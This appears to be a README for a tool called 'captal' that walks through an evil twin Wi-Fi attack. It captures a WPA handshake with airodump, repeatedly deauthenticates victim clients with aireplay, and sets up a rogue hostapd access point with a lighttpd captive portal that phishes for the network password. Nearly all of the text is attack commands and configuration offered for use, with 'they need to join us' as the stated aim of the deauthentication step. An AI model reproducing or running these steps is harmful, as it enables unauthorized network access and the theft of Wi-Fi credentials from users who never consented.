 # Evil Twin AP and WPA Password Phishing

### Handshake Snooping

##### Explore a network

```sh
sudo airodump -M wlan0
```
Save bssid and channel of the victim-AP.

##### Explore the victim-AP

```sh
sudo airodump -M --bssid $BSSID --channel $CHANNEL -w output wlan0
```

##### Snoop the handshake

a) Deauthenticate specific station:

```sh
sudo aireplay -0 5 -a $BSSID -c $STATION
```

b) Deauthenticate all stations:

```sh
sudo aireplay -0 5 -a $BSSID
```

Since the `output-01.cap` has the handshake, we can configure the
captal now!

---

### Configure captal

The following configuration assumes that the **captal** have been
installed with `PREFIX=/usr` instead of default `PREFIX=/usr/local`.

##### Edit `/etc/captal/chkwpa.conf`

```sh
CAP_FILE=/path/to/your/output-*.cap
SSID=your_victim_ssid
```

##### Edit `/etc/captal/hostapd.conf`

```sh
interface=your_roqueAP_interface
ssid=your_victimAP_ssid
channel=your_victimAP_channel
```

##### Edit `/etc/captal/lighttpd.conf`

Uncomment one of the `server.document-root` variable.

### Start captail

##### Run

```sh
sudo /etc/rc.d/captal start
```

##### Logs

```sh
sudo tail -f /var/log/messages /var/log/lighttpd.log
```

### Deauthenticate the clients from Original AP

They need to join us.

a) Deauthenticate specific station:

```sh
sudo aireplay -0 0 -a $BSSID -c $STATION
```

b) Deauthenticate all stations:

```sh
sudo aireplay -0 0 -a $BSSID
```

<!-- vim:sw=2:ts=2:sts=2:et:cc=72:tw=70
End of file. -->
